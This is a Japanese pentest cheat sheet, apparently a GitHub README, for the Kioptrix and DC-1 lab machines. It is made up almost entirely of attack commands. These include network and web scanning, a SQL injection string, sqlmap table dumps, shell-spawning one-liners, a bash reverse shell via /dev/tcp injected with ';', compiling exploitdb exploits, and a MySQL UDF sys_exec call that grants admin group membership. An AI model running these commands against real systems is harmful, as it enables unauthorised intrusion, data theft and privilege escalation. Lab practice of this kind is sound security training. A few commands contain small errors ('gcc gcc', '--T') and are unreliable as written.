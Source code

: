 🐻 Kioptrix#1/#2/#3/#4 DC-1

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

SSH／認証鍵使わずに接続

     ssh -o PubkeyAuthentication=no user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

    ' or 1=1--

[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le

 1. どのようなユーザが存在するか？
 2. 権限昇格を狙えるものはあるか？
 3. SUID／SGID(実行ファイル所有者権限実行)が存在しないか？
 4. 自ユーザで書き込める・アクセスできるものは何か？



## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash')  #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/bash")'
    ruby -e 'exec "/bin/bash"'
    find /etc/passwd -exec /bin/sh \;  #SUID


[bashリバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

[MySQL Root to System Root](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');




